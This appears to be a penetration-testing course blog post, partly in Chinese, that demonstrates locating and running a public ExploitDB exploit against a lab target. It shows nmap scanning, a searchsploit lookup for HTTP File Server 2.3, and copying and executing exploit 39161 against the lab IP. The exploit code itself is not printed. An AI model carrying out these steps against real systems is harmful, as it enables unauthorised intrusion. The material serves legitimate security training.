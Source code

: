 ```yaml
---
layout: post
title: "Fixing Exploits"
date: "2023-04-10"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - Exploitation
---
```


# Fixing Exploits（修复漏洞利用）
# Demo: Fixing Exploits（演示：修复漏洞利用）
Target IP Address: 10.4.23.75

Our objective is to first and foremost, identify the vulnerable service that's running on the target system. And then furthermore, we need to identify a relevant exploit that can be used to exploit this vulnerability. We're going to be doing this manually with ExploitDB exploits. Once we've identified the exploit that we're going to use, we then need to copy it and modify it in order to make it work.

The first step will involve performing an Nmap scan on the target in order to identify what services are running. 

```
nmap -sV 10.4.23.75
```

```
searchsploit HTTP File Server 2.3
```

```
cd Desktop/
```

Utilize searchsploit to make a copy of that exploit within my current working directory.

```
searchsploit -m 39161
```

```
vim 39161.py

#Usage: python Exploit.py <Target IP address> <Target Port Number>
```

```
python 39161.py 10.4.23.75 80
```
